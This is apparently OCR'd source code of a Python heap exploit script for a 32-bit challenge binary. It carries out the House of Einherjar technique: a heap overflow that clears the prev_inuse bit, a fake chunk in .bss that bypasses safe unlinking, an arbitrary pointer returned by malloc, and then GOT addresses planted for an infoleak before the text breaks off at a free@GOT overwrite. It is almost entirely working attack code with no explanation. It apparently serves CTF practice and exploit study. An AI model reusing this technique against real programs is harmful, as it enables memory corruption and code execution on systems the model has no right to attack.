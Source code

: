 
def heap(index, data):
    r.sendline("4")
    r.recvuntil(": ")
    r.sendline(str(index))
    r.sendline(data)
    r.recvuntil("> ")

def exploit(r):
    r.recvuntil("> ")

    log.indented("Starting House of Einherjar technique...")

    ### ALLOCATE 3 CHUNKS ###
    c1 = alloc()
    c2 = alloc()
    log.success("heap chunk leaked: "+hex(c2))
    c3 = alloc()

    ### OVERWRITE C2 PREV_SIZE & PREV_INUSE BIT ###
    target = 0x804a0b0 # address in middle of tmp

    log.info("triggering heap overflow")
    payload  = "A"*0x80
    payload +=  p32(c2-target)       # prev_size
    payload +=  p32(0x88)            # original size but w/ prev_inuse bit disabled

    heap(0,payload) # overflow c1 buffer into c2

    ### CRAFT FAKE CHUNK IN C2-PREV_SIZE ###  
    log.info("crafting fake chunk in .bss")   
    fake_chunk  = p32(0)*22      # set prev_size, size to 0x0
    fake_chunk += p32(0x804a0b0) # safe-unlinking bypass ; fake_p->fd
    fake_chunk += p32(0x804a0b0) # safe-unlinking bypass ; fake_p->bk

    tmp(fake_chunk) # set up fake chunk in tmp

    ### TRIGGER BACKWARDS CONSOLIDATE OF C2 W/ FAKE CHUNK ###
    free(1) # free chunk 2

    ### RESTORE FAKE CHUNK SIZE ###
    log.info("restoring fake chunk size") # restoration required to pass size checks
    fake_chunk  = p32(0)*21
    fake_chunk += p32(0x100) # because of newline, will set size of fake chunk to 0x100 and let newline corrupt lsb of fake_p->fd

    tmp(fake_chunk) # rewrite fake chunk's size to 0x100

    ### CALL MALLOC() TO RETURN ARBITRARY POINTER ###
    c4 = alloc()
    log.success("HoE succeeded! heap chunk returned: "+hex(c4))

    log.indented("Starting infoleaks...")

    ### POPULATE PTRS GLOBAL W/GOT ADDRS ###
    payload  = p32(0x0)*10     
    payload += p32(0x804a010)  # ptrs[0] ; free@GOT
    payload += p32(0x804a00c)  # ptrs[1] ; printf@GOT
    payload += p32(0x804a014)  # ptrs[2] ; getchar@GOT     
    payload += p32(0x804a0e0)  # ptrs[3] ; &ptrs
    payload += p32(0x804a020)  # ptrs[4] ; puts@GOT
    payload += p32(0x804a024)  # ptrs[5] ; __libc_start_main@GOT

    heap(3, payload) # populate ptrs[]
    
    ### CORRUPT free@GOT W/puts@PLT ###